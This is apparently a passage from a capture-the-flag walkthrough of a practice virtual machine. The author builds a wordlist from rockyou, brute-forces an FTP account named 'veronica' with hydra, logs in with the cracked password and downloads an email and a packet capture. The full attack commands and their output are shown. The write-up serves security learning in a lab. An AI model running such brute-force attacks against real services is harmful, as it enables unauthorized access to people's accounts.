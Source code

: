 ### Veronica's ftp folder

i re read the note from the ftp server and i missed the second part

>The new secret port will be open and then I can login from there with my wifi password, which I'm
sure Billy or Veronica know.  I didn't see it in Billy's FTP folders, but didn't have time to
check Veronica's.

so i need to login to ftp as Veronica but i dont know the password.

i used `hydra` with the password list i made from `rockyou` matching Veronica to brute force the `ftp` account

```bash
root@kali:~/BM# hydra -l veronica -P ./veronica.txt 192.168.93.151 ftp
Hydra v8.2 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-09-22 08:53:10
[DATA] max 16 tasks per 1 server, overall 64 tasks, 1546 login tries (l:1/p:1546), ~1 try per task
[DATA] attacking service ftp on port 21
[21][ftp] host: 192.168.93.151   login: veronica   password: babygirl_veronica07@yahoo.com
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2016-09-22 08:53:31
```

lets log in

```bash
root@kali:~/BM# ftp 192.168.93.151
Connected to 192.168.93.151.
220 Welcome to ColoradoFTP - the open source FTP server (www.coldcore.com)
Name (192.168.93.151:root): veronica
331 User name okay, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
ftp> ls
200 PORT command successful.
150 Opening A mode data connection for /.
-rwxrwxrwx 1 ftp 595 Aug 20 12:55 email-from-billy.eml
-rwxrwxrwx 1 ftp 719128 Aug 17 12:16 eg-01.cap
226 Transfer completed.
ftp>
```

and download everything like before

```bash
ftp> mget *
mget email-from-billy.eml? y
200 PORT command successful.
150 Opening A mode data connection for email-from-billy.eml.
226 Transfer completed for "email-from-billy.eml".
616 bytes received in 0.15 secs (3.9653 kB/s)
mget eg-01.cap? y
200 PORT command successful.
150 Opening A mode data connection for eg-01.cap.
226 Transfer completed for "eg-01.cap".
722969 bytes received in 0.39 secs (1.7459 MB/s)
ftp> 221 Logged out, closing control connection.
```
